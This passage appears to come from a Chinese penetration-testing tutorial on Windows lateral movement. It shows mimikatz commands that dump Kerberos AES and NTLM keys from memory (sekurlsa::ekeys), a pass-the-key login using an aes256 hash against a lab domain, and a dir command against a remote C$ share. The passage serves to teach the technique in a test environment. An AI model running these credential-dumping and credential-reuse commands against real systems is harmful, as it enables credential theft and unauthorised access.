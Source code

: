 弹出cmd

```
dir \\192.168.40.132\c$

```

成功

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/557818155ba6843d38a78ad0890e524ee1525124.jpg)![这里写图片描述](http://drops.javaweb.org/uploads/images/8618803cecfe5ad5f7f926bce649158ed52fe778.jpg)

> 注:  
> 虽然"sekurlsa::pth"在mimikatz中被称之为"Pass The Hash",但是其已经超越了以前的"Pass The Hash"，部分人将其命名为"Overpass-the-hash"，也就是"Pass-the-key"

### 测试2：使用aes key远程连接

已知信息：

```
* Username : a
* Domain   : TEST.LOCAL
* Key List :
    aes256_hmac       f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
    aes128_hmac       8cce86e4b0630f07fcf5f2110068c421
    rc4_hmac_nt       efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old      efa85b42d77dc2fdbdbdb767792b0a11
    rc4_md4           efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_nt_exp   efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old_exp  efa85b42d77dc2fdbdbdb767792b0a11

```

> 注：  
> 获取aes key 的mimikatz命令为：  
> mimikatz "privilege::debug" "sekurlsa::ekeys"

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/473749e952e29a07dbd0244721a2669163492a4d.jpg)

> Tips:  
> 通常情况下无法对mimikatz输出回显的内容进行复制，一种好的方法是使用日志记录功能将回显内容输出到文件中，开启日志记录功能后会把输出回显的内容保存在同级目录下的mimikatz.log中，命令参考如下：  
> mimikatz log privilege::debug sekurlsa::ekeys  
> 如果通过右键-编辑-标记的方式复制数据，当前窗口会崩溃,如图：  
> ![这里写图片描述](http://drops.javaweb.org/uploads/images/9cddb0329c6d46d1b7228cd29333c24440612035.jpg)

在测试主机上：

以管理员权限运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 

```

发现无法导入aes256

